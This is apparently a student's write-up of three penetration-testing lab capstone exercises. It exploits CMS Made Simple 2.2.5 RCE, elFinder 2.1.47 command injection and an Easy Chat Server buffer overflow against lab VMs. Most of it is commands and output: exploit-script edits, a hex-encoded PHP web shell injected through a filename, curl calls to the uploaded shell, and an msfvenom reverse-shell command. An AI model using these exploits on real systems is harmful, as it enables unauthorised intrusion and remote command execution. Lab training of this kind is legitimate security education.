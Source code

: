 
2. **Capstone Exercise**: To put in practice what we learned so far, here is the full vulnerable CMS Made Simple. You recovered the credentials for the admin on this service who is the user _offsec_ with the password _lFEZK1vMpzeyZ71e8kRRqXrFAs9X16iJ_. Use this information to exploit the service on VM 1 that is running on **hxxp://\[IP_ADDRESS]/cmsms** and read **/home/flag.txt** to solve this challenge.

- Enumerate
```bash
nmap -sCV 192.168.198.52
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 8.4p1 Ubuntu 5ubuntu1.2 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   3072 67:2f:bf:fe:a6:61:4d:13:68:62:e4:ab:d3:c9:8e:50 (RSA)
	|   256 7c:3c:8e:ea:64:48:2a:75:5b:86:c8:5d:d0:69:b1:fc (ECDSA)
	|_  256 74:48:13:a7:a2:97:bf:93:cc:21:e4:8e:9e:ef:20:ce (ED25519)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	|_http-title: Apache2 Ubuntu Default Page: It works
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


feroxbuster -u http://192.168.198.52 -s 200
	[####################] - 2m     30000/30000   219/s   http://192.168.198.52/cmsms/ 
	[##################>-] - 3m     27410/30000   167/s   http://192.168.198.52/cmsms/tmp/ 
	[###################>] - 3m     29411/30000   179/s   http://192.168.198.52/cmsms/admin/ 
	[################>---] - 3m     24900/30000   152/s   http://192.168.198.52/cmsms/modules/ 
	[####################] - 2m     30000/30000   219/s   http://192.168.198.52/cmsms/lib/ 
	[###################>] - 3m     29990/30000   183/s   http://192.168.198.52/cmsms/doc/ 
	[####################] - 2m     30000/30000   230/s   http://192.168.198.52/cmsms/uploads/
	... 
```

- Navigate to 192.168.198.52/cmsms
![](e13.2.3_cms.png)
- Find exploit, verify, download
```bash
searchsploit "CMS Made Simple" 2.2.5
	--------------------------------------------------------------------------- ---------------------------------
	 Exploit Title                                                             |  Path
	--------------------------------------------------------------------------- ---------------------------------
	CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution              | php/webapps/44976.py
	CMS Made Simple < 2.2.10 - SQL Injection                                   | php/webapps/46635.py
	--------------------------------------------------------------------------- ---------------------------------

searchsploit -p 44976               
	  Exploit: CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution
	      URL: https://www.exploit-db.com/exploits/44976
	     Path: /usr/share/exploitdb/exploits/php/webapps/44976.py
	    Codes: CVE-2018-1000094
	 Verified: True
	File Type: Python script, ASCII text executable
	Copied EDB-ID #44976's path to the clipboard

searchsploit -m 44976
```

- Adjust to fit
```python
# Line 12 - fix target IP
base_url = "http://192.168.198.52/cmsms/admin"
# Line 15 & 16 - Update creds
username = "offsec"
password = "lFEZK1vMpzeyZ71e8kRRqXrFAs9X16iJ"
# Line 34 - Ignore SSL cert
response = requests.post(url, data=data, allow_redirects=False)  
# Line 55 - Ignore SSL cert
response = requests.post(url, data=data, files=txt, cookies=cookies)  
# Line 80 - Ignore SSL cert
response = requests.post(url, data=data, cookies=cookies, allow_redirects=False)
```

IF error  is thrown:
`File "44976.py", line 25, in parse_csrf_token`
    `return location.split(csrf_param + "=")[1]`
Test csrf_param output by adding `print "[+] String being split: " + location` on Line *24*
Result will tell you which to use
`[+] String being split: http://192.168.198.52/cmsms/admin?_sk_=c865bd20b4d42fc0b84`

- Fix
```bash
# Line 18
csrf_param = "_sk_"
```

- Run & exploit
```bash
python2 44976.py
	[+] Authenticated successfully with the supplied credentials
	[+] String being split: http://192.168.198.52/cmsms/admin?_sk_=09032e5b656bb7393cd
	[*] Attempting to upload cmsmsrce.txt...
	[+] Successfully uploaded cmsmsrce.txt
	[*] Attempting to copy cmsmsrce.txt to shell.php...
	[+] File copied successfully
	[+] Exploit succeeded, shell can be found at: http://192.168.198.52/cmsms/uploads/shell.php

curl -k http://192.168.198.52/cmsms/uploads/shell.php?cmd=cat%20/home/flag.txt
	OS{579126dcf18692527ec0224ad0a4b9db}
```

> Answer:  OS{579126dcf18692527ec0224ad0a4b9db}





3. **Capstone Exercise**: The next VM, Module Exercise VM 2, is running a vulnerable version of the *elFinder* web application whose exploit is available . Once you've found the application base address through directory brute-forcing, modify the exploit to point to the correct application URL and get a shell. The flag can be found in the same folder. Note: Before running the exploit, remember to place a valid JPEG file on your local Kali machine and name it according to the exploit specifications.

- Enumerate
```bash
nmap -Pn 192.168.198.46
	PORT     STATE SERVICE
	22/tcp   open  ssh
	80/tcp   open  http
	3389/tcp open  ms-wbt-server

gobuster dir -u http://192.168.198.46 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
	/seclab               (Status: 301) [Size: 317] [--> http://192.168.198.46/seclab/]

feroxbuster -u http://192.168.198.46/seclab -s 200 -w /usr/share/seclists/Fuzzing/fuzz-Bo0oM.txt -k -t 100
	200      GET       12l       12w      125c http://192.168.198.46/seclab/.gitignore
	200      GET       28l       61w      638c http://192.168.198.46/seclab/bower.json
	200      GET       39l       92w     1328c http://192.168.198.46/seclab/composer.json
	200      GET        0l        0w        0c http://192.168.198.46/seclab/files/.gitkeep
	200      GET       15l      232w     1525c http://192.168.198.46/seclab/LICENSE.md
	200      GET     1070l     7800w    55390c http://192.168.198.46/seclab/Changelog
	200      GET       13l       37w      427c http://192.168.198.46/seclab/package.json
	200      GET      217l      923w    10174c http://192.168.198.46/seclab/README.md
	200      GET        0l        0w        0c http://192.168.198.46/seclab/php/editors/editor.php
```

- Navigate to `http://198.168.198.46/seclab/README.md`
- It'll download.  Can review for elFinder version
- Search for exploit, verify, and download
```bash
searchsploit elFinder 2.1                  
	--------------------------------------------------------------------------- ---------------------------------
	 Exploit Title                                                             |  Path
	--------------------------------------------------------------------------- ---------------------------------
	elFinder 2.1.47 - 'PHP connector' Command Injection                        | php/webapps/46481.py
	elFinder PHP Connector < 2.1.48 - 'exiftran' Command Injection (Metasploit | php/remote/46539.rb
	elFinder PHP Connector < 2.1.48 - 'exiftran' Command Injection (Metasploit | php/remote/46539.rb
	elFinder Web file manager Version - 2.1.53 Remote Command Execution        | php/webapps/51864.txt
	--------------------------------------------------------------------------- ---------------------------------

searchsploit -p 46481    
	  Exploit: elFinder 2.1.47 - 'PHP connector' Command Injection
	      URL: https://www.exploit-db.com/exploits/46481
	     Path: /usr/share/exploitdb/exploits/php/webapps/46481.py
	    Codes: CVE-2019-9194
	 Verified: True
	File Type: Python script, ASCII text executable
	Copied EDB-ID #46481's path to the clipboard

searchsploit -m 46481
```

- Understand the code
```python
# Line 27
payload = 'SecSignal.jpg;echo 3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a | xxd -r -p > SecSignal.php;echo SecSignal.jpg'
```
- Used CyberChef to decode `3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a` w/ *From Hex*
	- code is:  `<?php system($_GET["c"]); ?>`
- Requires the URL to the elFinder base directory as the arg to the script
- Also looks like it requires a .JPEG file titled SecSignal.jpg for it to work
- Copy a sample .jpg file to pwd, test run, & exploit
```bash
cp /var/lib/inetsim/http/fakefiles/sample.jpg ./SecSignal.jpg

python2 46481.py http://192.168.198.46/seclab
[*] Uploading the malicious image...
[*] Running the payload...
[+] Pwned! :)
[+] Getting the shell...
$ pwd
/var/www/http/seclab/php

$ find / -name flag.txt 2>/dev/null
/var/www/http/seclab/php/flag.txt

$ cat /var/www/http/seclab/php/flag.txt
OS{9a4337dd7581e44f7ebd5cb8de321d64}

```

> Answer:  OS{9a4337dd7581e44f7ebd5cb8de321d64}



4. **Capstone Exercise**: Enumerate the Module Exercise VM 3 and find the application that has a memory corruption vulnerability. Then find the related public exploit and fix it as illustrated in this Module.

- Enumerate
```bash
sudo nmap -Pn 192.168.198.213
	PORT      STATE SERVICE
	135/tcp   open  msrpc
	139/tcp   open  netbios-ssn
	445/tcp   open  microsoft-ds
	20000/tcp open  dnp

sudo nmap -sCV 192.168.198.213 -p 135,139,445,20000
	PORT      STATE SERVICE       VERSION
	135/tcp   open  msrpc         Microsoft Windows RPC
	139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
	445/tcp   open  microsoft-ds?
	20000/tcp open  http          Easy Chat Server httpd 1.0
	|_http-title: Easy Chat Server
	|_http-server-header: Easy Chat Server/1.0
	Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
	
	Host script results:
	| smb2-time: 
	|   date: 2024-03-24T23:52:06
	|_  start_date: N/A
	| smb2-security-mode: 
	|   3:1:1: 
	|_    Message signing enabled but not required

# Search for exploit
searchsploit "Easy Chat Server"
	...
	Easy Chat Server 3.1 - Remote Stack Buffer Overflow (SEH)                  | windows/remote/50999.py
	...

# Download  <-- NOTE  Info says it fails verification, but *should* work
searchcsploit -m 50999
```

- Review code
	- Line *22* shows reverse shell code used

- Craft reverse shell & replace current shellcode Line *24* - *50*
	- Careful to not remove Line *23* - the nop slide.
```bash
# meterpreter shell was non-interactive.  Had to go with this one:
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.207 LPORT=4444 -f python -b "\x00\x20" -v shellcode
```

- Run to test
```
python2 50999.py 192.168.198.213 20000       
	[*] Sending evil buffer...
	[+] Done!
```

Once connection's made
```powershell
cd C:\
dir \s flag.txt
type C:\Users\Administrator\Desktop\flag.txt
```

> Answer:  OS{8d347bb15227fa41b7812927dd7df120}